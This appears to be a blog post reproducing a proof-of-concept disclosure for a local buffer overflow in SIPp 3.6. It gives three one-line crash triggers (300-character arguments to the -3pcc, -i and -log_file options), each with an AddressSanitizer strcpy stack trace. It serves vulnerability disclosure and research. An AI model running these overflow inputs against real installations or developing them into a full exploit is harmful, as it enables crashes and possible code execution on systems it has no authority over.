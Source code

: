 ```yaml
---
layout: post
title: "SIPp 3.6 - Local Buffer Overflow (PoC)"
comments: true
description: "SIPp 3.6 - Local Buffer Overflow (PoC)"
keywords: "poc, sipp 3.6, buffer overflow"
---
```


Exploit Title: SIPp 3.6 - Local Buffer Overflow (PoC)
Date: 2018-06-30
Exploit Author: Fakhri Zulkifli
Vendor Homepage: http://sipp.sourceforge.net/
Software Link: https://github.com/SIPp/sipp/releases
Version: 3.6-dev and earlier
Tested on: 3.6-dev

```
$ ./sipp -3pcc `python -c ‘print “A” * 300'`

#0 0x448364 in strcpy /home/user/llvm/projects/compiler-rt/lib/asan/asan_interceptors.cc:425
#1 0x668d06 in main /home/user/sipp/src/sipp.cpp:1531:17
#2 0x7ff5ec21282f in __libc_start_main /build/glibc-Cl5G7W/glibc-2.23/csu/../csu/libc-start.c:291
#3 0x41f1a8 in _start (/home/user/sipp/sipp+0x41f1a8)

$ ./sipp -i `python -c ‘print “A” * 300'`

#0 0x448364 in strcpy /home/user/llvm/projects/compiler-rt/lib/asan/asan_interceptors.cc:425
#1 0x66a303 in main /home/user/sipp/src/sipp.cpp:1477:17
#2 0x7f281302682f in __libc_start_main /build/glibc-Cl5G7W/glibc-2.23/csu/../csu/libc-start.c:291
#3 0x41f1a8 in _start (/home/user/sipp/sipp+0x41f1a8)

$ ./sipp -log_file `python -c ‘print “A” * 300'`

#0 0x448364 in strcpy /home/user/llvm/projects/compiler-rt/lib/asan/asan_interceptors.cc:425
#1 0x66912f in main /home/user/sipp/src/sipp.cpp:1706:17
#2 0x7f6ca663782f in __libc_start_main /build/glibc-Cl5G7W/glibc-2.23/csu/../csu/libc-start.c:291
#3 0x41f1a8 in _start (/home/user/sipp/sipp+0x41f1a8)
```
